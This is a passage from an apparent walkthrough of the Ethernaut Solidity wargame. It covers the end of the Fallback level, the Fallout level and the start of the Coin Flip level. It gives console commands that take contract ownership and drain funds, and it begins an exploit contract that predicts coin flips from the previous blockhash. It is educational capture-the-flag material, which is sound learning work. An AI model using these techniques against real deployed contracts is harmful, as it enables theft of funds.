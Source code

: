 Now we can send ether to the contract and trigger fallback to `receive()`

```
>> let params = [{ to: instance, from: player, value: '0x01' }]
>> ethereum.request({ method: 'eth_sendTransaction', params })
>> await contract.owner() // verify owner change
<my address>
```

At this point you should be the owner of the contract. Now we can call `withdraw()` and drain the funds

```
>> await contract.withdraw()
```

And that clears the level!

# Fallout
This exploit relies on a typo in the constructor name. The contract name is `Fallout`
but the "constructor" name is `Fal1out`. The names are different which means `Fal1out`
isn't really constructor at all! It's just a regular function and we can call it
whenever we want. 

We can simply call `Fal1out` and claim ownership.
```
>> await contract.Fal1out()
```

**Note** this challenge was created before the `constructor` keyword was introduced to avoid these
mistakes.

And that clears the level!

# Coin Flip
Okay, this is the first exploit where we need to go beyond the console and write an
_exploit contract_. I like to use [Remix](https://remix.ethereum.org/) because it
makes it easy to deploy and debug contracts.

Let's analyze the contract. To predict the coinflip we need our `_guess` parameter to match
`blockValue.div(FACTOR)`. Let's further decompose that. We know `blockValue` is really just
`uint256(blockhash(block.number.sub(1)))` and `FACTOR` is the constant
`57896044618658097711785492504343953926634992332820282019728792003956564819968`. Therefore:

```
coinFlip =
blockValue.div(FACTOR) =
uint256(blockhash(block.number.sub(1))).div(57896044618658097711785492504343953926634992332820282019728792003956564819968)
```

The exploit contract uses this info to precompute the correct side:

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.6.0;

import "./CoinFlip.sol";

contract CoinFlipExploit {
    event Flip(bool success);
    uint constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address coinflip;

    constructor(address _coinflip) public {
        coinflip = _coinflip;
    }
```